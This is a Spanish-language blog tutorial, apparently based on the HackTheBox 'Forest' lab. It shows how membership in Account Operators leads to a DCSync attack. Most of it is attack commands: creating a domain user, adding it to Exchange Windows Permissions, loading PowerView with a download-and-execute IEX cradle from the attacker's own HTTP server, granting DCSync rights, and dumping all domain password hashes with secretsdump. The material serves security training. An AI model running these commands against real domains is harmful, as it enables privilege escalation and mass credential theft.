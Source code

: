```yaml
---
title: Active Directory - Abusando del Grupo Account Operators
description: Abusando del grupo Account Operators para desencadenar en un DCSync Attack.
date: 2024-11-06
categories: [active-directory, account-operators]
tags: [grupos-de-usuarios-especiales, dcsync, secretsdump, exchange-windows-permissions, escalada-de-privilegios, casos-de-ataques-ad]
img_path: /assets/img/esquema-representativo-para-un-dcsync-desde-svc-alfresco.png
image: /assets/img/esquema-representativo-para-un-dcsync-desde-svc-alfresco.png
---
```


## **Introducción**

El grupo **Account Operators** lo que nos permite es la creación, modificación y eliminación de usuarios y grupos. Es por esto, por lo que supone una vía potencial de **escalada de privilegios** ya que podemos crear un usuario y asignarle el grupo *Exchange Windows Permissions* el cual, nos permitirá efectuar un *DCSync Attack*.

### **Gráfico del escenario**

En este escenario, aprenderemos a abusar del grupo **Account Operators** para poder realizar un *DCSync Attack*. Primero, crearemos un usuario aprovechando los permisos del grupo **Account Operators**. A este usuario, lo añadiremos al grupo **Exchange Windows Permissions**, desde el cual podremos asignarnos el privilegio de *DCSync*.

![esquema representativo para un dcsync desde svc-alfresco](/assets/img/esquema-representativo-para-un-dcsync-desde-svc-alfresco.png)

### **Contexto**

Supongamos que estamos en el grupo *Account Operators*, o en algún grupo que indirectamente sea miembro de dicho grupo. En este caso, nos encontramos como el usuario *svc-alfresco* el cual, es miembro del grupo *Service Accounts*.

![net user svc-alfresco](/assets/img/net-user-svc-alfresco.png)

Este grupo a su vez es miembro de *Privileged IT Accounts* y este mismo grupo a su vez, pertenece al grupo de *Account Operators*. Desde el grupo de *Account Operators* podemos añadir un usuario al grupo de *Exchange Windows Permissions*, desde el cual nos podremos asignar el privilegio de *DCSync* y **dumpearnos todos los hashes NTLMv2 de todos los usuarios del dominio**.

Todo esto, lo podemos ver más claro desde BloodHound.

![esquema de ataque para un dcsync desde svc-alfresco](/assets/img/esquema-de-ataque-para-un-dcsync-desde-svc-alfresco.png)

Al pertenecer indirectamente al grupo **Account Operators**, la cuenta *svc-alfresco* obtiene privilegios que le permiten realizar tareas como:

- **Crear, modificar y eliminar cuentas de usuario**.
- **Gestión de la membresía del grupo**.
- **Desbloqueo y restablecimiento de contraseñas**.
- **Gestión de propiedades de cuenta**.
- **Asignación y modificación de derechos de usuario**.

## **Manos a la obra**

Para abusar de esto, primeramente empezaremos creando un usuario y añadirle al dominio.

```powershell
net user hegociv hegociv123 /add /domain
```

Podemos comprobar las propiedades de este usuario.

```powershell
net user hegociv
```

![net user hegociv](/assets/img/net-user-hegociv.png)

Seguidamente, vamos a ver los grupos a los que le podemos asignar. En esta lista si observamos, nos encontramos con el grupo *Exchange Windows Permissions*.

![net group exchange windows permissions](/assets/img/net-group-exchange-windows-permissions.png)

Este grupo, tiene el permiso de **WriteDacl access** sobre el dominio (en este caso, sobre *htb.local*), que permite a cualquier miembro de este grupo, modificar los privilegios del dominio. Entre ellos, se encuentra el **privilegio de DCSync**.

Ahora que vemos que el grupo de *Exchange Windows Permissions* está disponible, añadiremos al usuario *hegociv*.

```powershell
net group "Exchange Windows Permissions" hegociv /add
```

Si visualizamos de nuevo, las propiedades de este usuario, veremos como ahora pertenecemos a este grupo.

![net user hegociv exchange windows permissions](/assets/img/net-user-hegociv-exchange-windows-permissions.png)

También, podemos ver los miembros y la información de este grupo.

```powershell
net group "Exchange Windows Permissions"
```

![net group exchange windows permissions information](/assets/img/net-group-exchange-windows-permissions-information.png)

En este momento, nos encontramos en el punto en el que deberemos de asignar el privilegio de *DCSync* pero antes, deberemos de configurar las credenciales del usuario con los siguientes comandos.

```powershell
$SecPassword = ConvertTo-SecureString 'hegociv123' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('DOMINIO\hegociv', $SecPassword)
```

En este caso, el *DOMINIO* será `htb.local`, por lo que deberemos de dejar este último comando de la siguiente manera.

```powershell
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\hegociv', $SecPassword)
```

Una vez que hemos creado el objeto, podremos manipularlo con `Add-DomainObjectAcl` para decirle: "*quiero que este usuario, cuya credencial es esta, asignarle el privilegio de DCSync*". Sin embargo, el comando de `Add-DomainObjectAcl` no existe de primeras, por lo que tendremos que invocarlo.

Para invocarlo, usaremos *[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)* desde el que nos descargaremos el binario de *[PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)*.

```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1
```

Seguidamente, realizaremos una carga remota, por lo que nos ponemos primeramente en escucha con *Python3*, desde la ruta en la que se encuentra el binario de *PowerView.ps1*.

```bash
python3 -m http.server 8080
```

E invocaremos el binario desde *PowerShell* en la máquina víctima.

```powershell
IEX(New-Object Net.WebClient).downloadString('http://NUESTRA-IP:8080/PowerView.ps1')
```

Gracias a esto, habremos invocado el comando directamente.

![invocando el comando remotamente](/assets/img/invocando-el-comando-remotamente.png)

Ahora sí, podremos ejecutar el comando `Add-DomainObjectAcl` para asignar el privilegio de *DCSync*. Teniendo en cuenta que, nuestro dominio es *htb.local* y nuestro usuario es *hegociv*, deberemos de ejecutar el comando de la siguiente manera. Si tenemos otros datos, modificaremos estos mismos para que adaptarlo a nuestro caso.

>**A tener en cuenta**<br>
>El propio *BloodHound*, nos dice de asignar el privilegio *DCSync* de la siguiente forma:
>
>`Add-DomainObjectAcl -Credential $Cred -TargetIdentity DOMINIO -Rights DCSync`
>
>Sin embargo, este comando no nos funcionará correctamente y se nos quedará pillado. Por eso, debemos de modificar este comando para que funcione adecuadamente.

```powershell
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity hegociv -Rights DCSync
```

Ahora sí, podremos **dumpear todos los hashes NTLMv2 de los usuarios**. Para ello, usaremos `secretsdump.py` o `impacket-secretsdump`, indicándole el dominio, usuario e IP del DC correspondiente. Además, podemos indicarle que nos guarde todos los *hashes* en un fichero que nosotros le indicaremos con el parámetro `-outputfile`.

```bash
impacket-secretsdump DOMINIO/hegociv@IP -outputfile dcsync_hashes
```

![dumpeando todos los hashes NTLMv2 del dominio con impacket-secretsdump](/assets/img/dumpeando-todos-los-hashes-NTLMv2-del-dominio-con-impacket-secretsdump.png)

Podemos visualizar estos *hashes*, en el fichero que le hemos especificado más `.ntds`.

![fichero dcsync_hashes ntds secretsdump](/assets/img/fichero-dcsync-hashes-ntds-secretsdump.png)

## Enlaces de referencia
Los siguientes son una serie de enlaces los cuales, me han ayudado a realizar este artículo y a aprender sobre ello.

- [Account Operators Privilege Escalation](https://blog.cyberadvisors.com/technical-blog/blog/account-operators-privilege-escalation)
- [Máquina Forest - HackTheBox](https://app.hackthebox.com/machines/212)
- [Resolución de la Máquina Forest - S4vitar](https://www.youtube.com/watch?v=7G5wkoBpFWU)
- [HackTricks - Dcsync](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)
- [Everything you need to know about DCSync attacks](https://blog.quest.com/everything-you-need-to-know-about-dcsync-attacks/)

## Despedida
Muchas gracias por leer este artículo, espero que hayas aprendido mucho sobre este escenario en el que abusamos del grupo de **Account Operators** para derivarlo a un **DCSync Attack**. ¡Nos vemos en la próxima
